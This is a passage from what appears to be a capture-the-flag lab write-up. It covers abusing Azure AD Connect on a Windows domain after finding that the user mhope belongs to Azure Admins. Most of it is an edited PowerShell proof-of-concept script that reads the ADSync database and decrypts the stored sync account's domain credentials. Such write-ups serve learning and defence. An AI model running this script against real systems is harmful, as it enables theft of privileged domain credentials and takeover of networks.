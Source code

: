 ```shell
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```
After examining the results, we can see that mhope is part of the group Azure Admins.

## Azure AD Connect Exploitation to obtain Administrator Credentials

Through manual system and folders enumeration, we found traces of Azure AD everywhere. 

Notably, the Microsoft Azure Active Directory Connect service is of particular interest, as it synchronizes the entire Active Directory along with password hashes. This indicates that the service possesses DCSync privileges within the domain.

Doing some research, we found the following documentation about how to exploit Azure AD Connect:

https://blog.xpnsec.com/azuread-connect-for-redteam/

This documentation says that the members of Azure Admins group have read rights on the database ADSync in the MSSQL, which contains the encrypted configuration being used for the Microsoft Azure Active Directory Connect service.

The documentation also contains a PoC script, which requires SQL server with remote connections enabled, but that is not the case here. This means we will need to edit the script.

The edited script looks as follow:

```shell
Write-Host "Retrieving Key_ID, Instance_ID, and Entropy..."
   
$basic_data = (Invoke-SQLCmd "USE ADSync; SELECT keyset_id, instance_id, entropy FROM mms_server_configuration")
   
$key_id = $basic_data.keyset_id
$instance_id = new-object System.Guid($basic_data.instance_id)
$entropy = new-object System.Guid($basic_data.entropy)
   
Write-Host "Collecting Private and Encrypted Configuration..."
$advanced_data = (Invoke-SQLCmd "USE ADSync; SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'")
   
$config = $advanced_data.private_configuration_xml
$crypted = $advanced_data.encrypted_configuration
   
Write-Host "Loading mcrypt.dll and Decrypting the Credentials..."
add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
   
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}
   
```